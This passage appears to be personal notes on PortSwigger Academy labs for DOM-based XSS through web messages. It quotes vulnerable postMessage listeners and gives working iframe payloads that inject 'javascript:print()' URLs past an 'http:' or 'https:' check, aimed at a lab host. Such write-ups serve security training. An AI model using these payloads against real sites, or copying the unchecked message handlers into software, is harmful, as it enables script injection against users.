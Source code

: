 
# ***2.  Lab: DOM XSS using web messages and a JavaScript URL*** 
[to the Lab](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-a-javascript-url)

look for vulnarble JS functions by finding script>tag in responses:
find:
```htm
    <script>
        window.addEventListener('message', function(e) {
            var url = e.data;
            if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
                location.href = url;
            }
        }, false);
    </script>
```

so payload must start with 'http:' or 'https:' to be executed. lets try to pass arbitary url with hashed payload:

possible payloads:
```htm
<iframe src="https://0aab0039049cb659c0c402b200f800de.web-security-academy.net" onload="this.contentWindow.postMessage('javascript:print()<!--http:','*')">

<iframe src="https://0aab0039049cb659c0c402b200f800de.web-security-academy.net" onload="this.contentWindow.postMessage('javascript:print()//https:','*')">
```



# DOMed!

# ***3.  Lab: DOM XSS using web messages and JSON.parse*** 
[to the Lab](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-json-parse)

look for vulnarble script> tags at proxie - find:
```htm
<script>
    window.addEventListener('message', function(e) {
        var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
        document.body.appendChild(iframe);
        try {
            d = JSON.parse(e.data);
        } catch(e) {
            return;
        }
        switch(d.type) {
            case "page-load":
                ACMEplayer.element.scrollIntoView();
                break;
            case "load-channel":
                ACMEplayer.element.src = d.url;
                break;
            case "player-height-changed":
                ACMEplayer.element.style.width = d.width + "px";
                ACMEplayer.element.style.height = d.height + "px";
                break;
        }
    }, false);
</script>
```